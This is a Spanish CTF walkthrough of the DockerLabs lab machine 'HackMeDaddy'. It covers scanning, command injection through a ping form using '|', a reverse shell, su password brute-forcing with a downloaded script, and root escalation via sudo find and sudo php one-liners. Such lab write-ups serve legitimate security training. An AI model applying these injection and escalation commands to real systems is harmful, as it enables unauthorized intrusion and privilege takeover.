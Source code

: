 # HackMeDaddy

Hoy maquina HackMeDaddy de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Difícil

![Dock](../../../maquina-HackMeDaddy/imagenes/Dock.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
sudo nmap -p- 172.17.0.2 -sSVC --min-rate 5000 -n -Pn --open -oN escaneo.txt
```

```ruby
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 19:21 -03
Nmap scan report for 172.17.0.2
Host is up (0.000015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 05:48:9d:f6:29:e1:dd:c4:f6:18:87:ff:13:15:5a:80 (ECDSA)
|_  256 0a:3d:0d:c3:fe:4e:57:8a:de:1f:5f:3c:8e:92:e9:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: HackMeDaddy - Hacking \xC3\x89tico
| http-robots.txt: 3 disallowed entries 
|_/FLAG.txt /joomla/* /secret/
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds
```

Como vemos no hay nada interesante, solo esta abierto el puerto 22 y 80 pero nada interesante.

#### PUERTO 80:

![80](../../../maquina-HackMeDaddy/imagenes/80.png)

En un principio no hay nada interesante, por lo que haremos un poco de fuzzing con gobuster:

```css
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,sh,py,js,elf
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,sh,py,js,elf
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 7036]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/info.txt             (Status: 200) [Size: 123]
/flag.txt             (Status: 200) [Size: 455]
/robots.txt           (Status: 200) [Size: 691]
Progress: 135528 / 1764488 (7.68%)
[!] Keyboard interrupt detected, terminating.
===============================================================
Finished
===============================================================
```

Lo único interesante es el archivo `info.txt` que nos habla de un `README.txt` y de un usuario llamado "Eliot", por lo que si vemos un poco la página principal en un momento se ejecuta un comando que dice "cat README.txt" y tiene esto:

```abap
d05notfound exploit payload shell bruteforce vulnerability cipher zero-day phishing root port_scan firewall backdoor
```

Entonces probando si existe en el servidor vemos que si existe la carpeta `d05notfound` y contiene esto: ![d05notfound](../../../maquina-HackMeDaddy/imagenes/d05notfound.png)

Pero lo único importante es que al final dice que se puede hacer un "ping". Ahora abriremos el burpsuite y capturamos la peticion al poner `-c 1 google.com`, damos click derecho a la petición y damos click izquierdo en donde dice "Send To Repeater". Ahora vamos al repeater y le damos al "send" y en response ponemos "Raw", ahora, si bajamos vemos que si se ejecuta el ping y nos muestra esto:

```css
PING google.com (172.217.172.78) 56(84) bytes of data.
64 bytes from eze06s01-in-f14.1e100.net (172.217.172.78): icmp_seq=1 ttl=114 time=102 ms

--- google.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 101.841/101.841/101.841/0.000 ms
```

como vemos, solo mando 1 porque pusimos "-c 1", por lo que tecnicamente ejecuta el comando directamente con "ping $INPUT", por lo que teniendo en cuenta eso podriamos intentar poner un ";" o "|" con otro comando como por ejemplo `ls -la`. Al presionar send vemos que el que funciona es "|" y nos devuelve esto:

```css
PING google.com (172.217.172.78) 56(84) bytes of data.
64 bytes from eze06s01-in-f14.1e100.net (172.217.172.78): icmp_seq=1 ttl=114 time=102 ms

--- google.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 102.012/102.012/102.012/0.000 ms
</pre><h2>Resultado del Comando:</h2><pre>total 12
drwxr-xr-x 1 root root   30 Aug 13 14:42 .
drwxr-xr-x 1 root root   94 Aug 13 14:52 ..
-rw-r--r-- 1 root root 8300 Aug 13 14:40 d05notfound.php
```

Vemos que podemos ejecutar comandos remotamente con el signo "|".

## INTRUSION

Ahora que podemos ejecutar comandos vamos a la pagina de [revshells](https://www.revshells.com) y buscamos el de `python3 #2`, escuchamos con netcat en el puerto que elegimos y presionamos el send. _Ya estamos dentro_

#### TRATAMIENTO DE LA TTY

Para hacer el tratamiento de la tty y que no se nos cierre el terminal al persionar `ctrl+C` tenemos que ejecutar esta serie de comandos apenas entremos:

```css
script /dev/null -c bash #damos al enter y presionamos ctrl+Z
stty raw -echo;fg #damos al enter y ponemos reset xterm y enter
export TERM=xterm && export SHELL=bash
```

Una ve hecho esto ya no se nos cerrará la terminal.

## ESCALADA DE PRIVILEGIOS

### www-data

Siendo el usuario "www-data" iremos a la home y veremos que podemos leer la carpeta "e1i0t". Entramos y luego a la carpeta "documents"; estando ahi vemos dos archivos, `agenda.txt agenda_passwords.txt`, que al parecer ambos son una wordlist. Ahora hacemos un wget dentro de la carpeta `/tmp` al script [Sudo\_BruteForce](https://github.com/Maalfer/Sudo_BruteForce) y lo ejecutamos de la siguiente manera:

```css
/tmp/Linux-Su-Force.sh e1i0t /home/e1i0t/documents/agenda.txt
```

Esto nos encuentra la contraseña del usuario `e1i0t` y escalamos con `su e1i0t` o directamente nos conectamos por ssh.

### e1i0t

Ahora ejecutamos `sudo -l` y vemos que podemos ejecutar el binario `find` como el usuario "an0n1mat0", por lo que buscamos en [GTFOBins](https://gtfobins.github.io/) y vemos que podemos escalar con:

```css
sudo -u an0n1mat0 find . -exec /bin/bash \; -quit
```

### an0n1mat0

Siendo el usuario "an0n1mat0" listamos lo que hay en nuestro directorio y vemos una nota que dice lo siguiente:

```ruby
The boss told me that he will soon remove your privileges to be able to access your secret folder.
```

Si listamos en la raiz hay una carpeta llamada "secret", si la listamos vemos un archivo llamado "confidencial.txt" que tiene lo siguiente:

```css

There is a super secret file that no one but the boss should read, because there are some user passwords.

You have to move the passwords_users.txt file to a more secure place.
```

Dice que hay un archivo llamado "passwords\_users.txt", por lo que lo buscamos con el siguiente comando:

```css
find / -name "passwords_users.txt" 2>/dev/null
```

```css
/usr/local/bin/passwords_users.txt
```

Ahora lo leemos con cat y nos dice esto:

```css
User passwords:

e1i0t:eliotelmejor
an0n1mat0:XXyanonymous
root:root

There are some outdated passwords, but I don't remember an0n1mat0's entire password, I know that where the two
```

Vamos a nuestra maquina local y ejecutamos lo siguiente:

```css
crunch 12 12 abcdefghijklmnopqrstuvwxyz -o wordlist -t @@yanonymous
```

nos lo copiamos y lo creamos como wordlist en la maquina victima y ahora ejecutamos el script que antes nos guardamos con wget de la siguiente manera:

```css
/tmp/Linux-Su-Force.sh an0n1mat0 /tmp/wordlist.txt
```

```css
Contraseña encontrada para el usuario an0n1mat0: XXXXXXXXX
```

Ahora que tenemos la contraseña de "an0n1mat0" podemos hacer un `sudo -l` y vemos que podemos ejecutar `php` como root, entonces simplemente ponemos:

```css
CMD="/bin/bash"
sudo php -r "system('$CMD');"
```

_y ya seriamos root_

![root](../../../maquina-HackMeDaddy/imagenes/root.png)

Muy buena maquina, adiós...

